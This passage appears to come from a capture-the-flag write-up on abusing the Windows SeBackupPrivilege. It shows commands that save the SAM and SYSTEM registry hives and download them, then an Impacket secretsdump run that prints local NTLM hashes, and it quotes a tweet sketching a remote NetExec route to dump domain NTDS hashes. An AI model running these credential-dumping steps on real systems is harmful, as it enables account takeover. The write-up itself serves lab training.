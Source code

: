 ```

```

### Exploit SeBackupPrivilege

#### Via reg / secretsdump

There are a few ways to exploit this privilege. I showed this as an unintended path in [Freelancer](/2024/10/05/htb-freelancer.html#exploit-sebackupprivilege). Without any tools, I can dump registry hives to files and exfil them:

```
*Evil-WinRM* PS C:\programdata> reg save hklm\sam sam      
The operation completed successfully.                      
*Evil-WinRM* PS C:\programdata> reg save hklm\system system
The operation completed successfully. 
*Evil-WinRM* PS C:\programdata> download sam
                                        
Info: Downloading C:\programdata\sam to sam
                                        
Info: Download successful!
*Evil-WinRM* PS C:\programdata> download system
                                        
Info: Downloading C:\programdata\system to system
                                        
Info: Download successful!

```

This is enough to get the local administrator hash for the box. I’ll use `secretsdump.py` from [Impacket](https://github.com/SecureAuthCorp/impacket):

```

oxdf@hacky$ secretsdump.py -sam sam -system system LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 

```

#### Via NetExec

In response to my Freelancer post, mpgn tweeted:

> imo way to complicated to extract the ntds, once you got a user with backup privilege group just do:  
>   
> 1⃣ <https://t.co/ovXQF83hJz> ... yourshare  
> 2⃣ <https://t.co/RMt7R38eH3> freelancer.htb/user:pass@ip backup -o \\youshare\share'  
> 3⃣ nxc smb dc -u DC$ -H ... --ntds 🏆  
>   
> remotely 😋 <https://t.co/LtTl0G8FB4>
>
> — mpgn (@mpgn\_x64) [October 7, 2024](https://twitter.com/mpgn_x64/status/1843257088904208681?ref_src=twsrc%5Etfw)
